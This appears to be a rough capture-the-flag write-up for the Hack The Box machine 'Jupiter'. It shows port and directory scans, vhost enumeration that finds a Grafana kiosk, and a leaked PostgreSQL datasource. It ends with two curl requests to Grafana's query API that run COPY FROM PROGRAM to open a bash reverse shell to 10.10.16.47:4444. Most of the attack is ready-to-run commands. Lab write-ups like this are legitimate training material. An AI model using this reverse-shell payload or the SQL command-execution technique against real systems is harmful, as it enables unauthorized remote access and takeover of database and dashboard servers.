

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


it shows forbidden pages so that means theere is a way to be authenticated

/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]
/fonts                (Status: 301) [Size: 178] [--> http://jupiter.htb/fonts/]
/Source               (Status: 301) [Size: 178] [--> http://jupiter.htb/Source/]
/sass                 (Status: 301) [Size: 178] [--> http://jupiter.htb/sass/]

got a subdomain

$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u jupiter.htb -t 50 --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://jupiter.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/07/19 06:23:34 Starting gobuster in VHOST enumeration mode
===============================================================
Found: kiosk.jupiter.htb Status: 200 [Size: 34390]
Progress: 4989 / 4990 (99.98%)
===============================================================
2023/07/19 06:24:08 Finished

we reach a kiosk place


At http://kiosk.jupiter.htb/api/datasources

```
0	
id	1
uid	"YItSLg-Vz"
orgId	1
name	"PostgreSQL"
type	"postgres"
typeName	"PostgreSQL"
typeLogoUrl	"public/app/plugins/datasource/postgres/img/postgresql_logo.svg"
access	"proxy"
url	"localhost:5432"
user	"grafana_viewer"
database	""
basicAuth	false
isDefault	true
jsonData	
database	"moon_namesdb"
sslmode	"disable"
readOnly	false
```

```
curl --location 'http://kiosk.jupiter.htb/api/ds/query' --header 'Content-Type: application/json' --data '{"queries":[{"refId":"A","datasource":{"uid":"YItSLg-Vz","type":"postgres"},"rawSql":"CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.16.47/4444 0>&1\"'", "format":"table","datasourceId":1, "maxDataPoints":60000,"intervalMs":940,}],"range":{"from":"2023-06-07T19:30:00.000Z","to":"2023-06-07T01:30:00.000Z", "raw":{"from":"now-6h","to":"now}},"from":"","to":""}'
```

adding a slash in front
```
curl --location 'http://kiosk.jupiter.htb/api/ds/query' --header 'Content-Type: application/json' --data '{"queries":[{"refId":"A","datasource":{"uid":"YItSLg-Vz","type":"postgres"},"rawSql":"CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \\"bash -i >& /dev/tcp/10.10.16.47/4444 0>&1\\"'", "format":"table","datasourceId":1, "maxDataPoints":60000,"intervalMs":940,}],"range":{"from":"2023-06-07T19:30:00.000Z","to":"2023-06-07T01:30:00.000Z", "raw":{"from":"now-6h","to":"now}},"from":"","to":""}'
```


